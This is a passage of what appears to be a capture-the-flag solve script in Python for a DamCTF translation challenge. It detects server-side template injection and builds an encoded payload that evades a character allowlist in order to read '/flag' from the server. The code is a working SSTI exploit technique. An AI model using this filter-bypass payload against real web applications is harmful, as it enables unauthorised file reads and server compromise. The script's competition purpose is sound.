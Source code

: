 ```
                break

    sum = '+'.join(sum)

    decomposition = sum

    if eval(decomposition) != num:
        print("ERROR IN DECOMPOSITION")
        exit()

    # print(f"{num} = {decomposition}")

    return decomposition


def main():

    s = requests.Session()

    allowlist = ["c", "{", "}", "d", "6", "l",
                 "(", "b", "o", "r", ")", '"', "1", "4", "+", "h", "u", "-", "*", "e", "|", "'"]

    # check if vulnerable to SSTI
    translator = s.post(
        "https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload="+"{ {6*6} }")

    if('36' in str(translator.content)):
        print("SSTI detected")

    # prepare attack string
    attack_str = '(open("/flag").read())'
    attack = list(attack_str)

    # encode the attack string
    encoded_att = []
    valid_to_add = []

    for ch in attack:
        if ch in allowlist:
            valid_to_add.append(ch)
        else:
            # append the consecutive valid chars together e.g. we pair together 're', otherwise it would be 'r'+'e' which makes a longer payload
            if len(valid_to_add) != 0:
                encoded_att.append("+'"+"".join(valid_to_add)+"'")
                valid_to_add = []

            # decompose the number
            numb = decompose_number(ord(ch))
            encoded_att.append(f'+({numb})|ch')  # add |ch to encode the char

    if len(valid_to_add) != 0:
        encoded_att.append("+'"+"".join(valid_to_add)+"'")

    encoded_att = ''.join(encoded_att).strip('+')

    # add |e to evaluate the attack
    encoded_att = '{ {(' + encoded_att + ')|e} }'

    # replace + with url encoded
    encoded_att = encoded_att.replace('+', "%2B")

```